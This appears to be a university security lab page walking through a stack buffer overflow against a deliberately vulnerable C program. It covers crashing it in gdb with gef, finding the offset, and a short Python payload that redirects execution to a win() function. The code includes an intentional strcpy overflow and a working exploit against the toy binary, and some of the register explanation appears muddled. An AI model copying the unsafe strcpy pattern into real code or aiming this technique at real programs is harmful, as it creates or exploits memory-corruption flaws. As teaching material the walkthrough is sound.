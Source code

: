 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```



# Stack Overflow Walkthrough

Recall the way the stack works:

<Image alt="Stack overflow attack" src={figure_6_5} />

- Note, this example assumes 4-byte memory words, but it works regardless of
  word size

```c
void myfunction(char *src) { /* src is a ptr to a char string */
  int var1, var2; /* 1 stack word used per integer */
  char var3[4]; /* also 1 word for 4-byte buffer */
  strcpy(var3, src); /* template: strcpy(dst, src) */
}
```

Our goal is to overwrite the return address and point it somewhere else.

## Preliminaries

- Install [gef](https://github.com/hugsy/gef). This will make using gdb for exploits a lot simpler.

- Use an [x86-64 reference](https://web.stanford.edu/class/cs107/resources/x86-64-reference.pdf).

## Vulnerable code

Here is the vulnerable code we'll be using. This is taken from `stack-overflow.c` in the [software security repo](https://github.com/BYU-CS465/software-security).

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void my_function(const char *);

void win()
{
  printf("You win!\n");
  exit(0);
}

int main(int argc, char **argv)
{
  char buf[101];

  printf("Enter a string: ");
  fgets(buf, 100, stdin);

  my_function(buf);

  printf("Exiting normally\n");
}

void my_function(const char *src)
{
  int var1 = 1;
  char copy[4];
  strcpy(copy, src);
}
```

## Causing a crash

Notice that the above code is using `strcpy()`. This means it should be easy to crash the program. Compile the vulnerable code, which results in an executable called `stack`. Run `gdb ./stack` and then generate a pattern: `pattern create 100`:

<Image alt="Using the pattern create command in gdb" src={gdb_pattern} />

Now run the program and supply the pattern as input:

<Image
  alt="Use the created pattern as input to the program"
  src={gdb_cause_crash}
/>

Once you hit enter, then gdb, using `gef`, will show you:

<Image alt="Crash output from gdb" src={gdb_crash} />

- The top listing shows you registers, color-coded to show you which are affected by what we wrote on the stack.

  - Notice that we can overwrite `$rsp`, the stack pointer
  - Notice that we did not change `$rip`, the instruction pointer. This is because the address we've given in `$rsp` a 64-bit address and programs are capped at using 48-bit addresses.

- The bottom listing shows you the stack.
  - The program wrote the first four bytes of our pattern `aaaa` into the local variable `copy`. Use `p copy` to see its value.
  - Then it continued copying past the buffer and changed `var1` to contain `0x61616161`, which is also `aaaa`. Use `p var` to see its value.
  - Then it copied `baaaaaaa` into `$rbp`.
  - Then it copied `caaaaaaa` into `$rsp` and kept going onto the rest of the stack.
  - Notice that the stack is shown starting at `$rsp`.

Now run `pattern search `caaaaaaad`:

<Image alt="Use the pattern search command in gdb" src={gdb_pattern_search} />

You should see the offset from the buffer to `$rsp`, which in this case is 16. We can pretty easily see that ourselves, but `pattern search` simplifies things a bit, and you won't always have the source code to work with.

### Exploiting the vulnerability

In this case, we want to "win" by having the program execute the `win()` function. We can do that by overwriting the `$rsp` to point to the `win()` function. To get this address, use `disassem win`:

<Image alt="Use the disassem command in gdb" src={gdb_disassem} />

In this case, we can see that the address is `0x4011b6`.

At this point, use a small program we have written, called `exploit.py`:

```python
#!/usr/bin/env python3
import sys

NUM = 16

payload = b"A" * NUM + b'\xb6\x11\x40\x00\x00\x00\x00\x00'
sys.stdout.buffer.write(payload)
print()
```

This writes out the number of `A` characters specified, followed by our address, which is in reverse order because the machine is little endian. You can execute this program using: `python exploit.py > payload.txt`.

Now go back to gdb and provide this as input, using `r < payload.txt`:

<Image
  alt="use gdb to run the program with the specified input"
  src={gdb_you_win}
/>

You can also run this on the command line to verify it works: `./stack < payload.txt`.
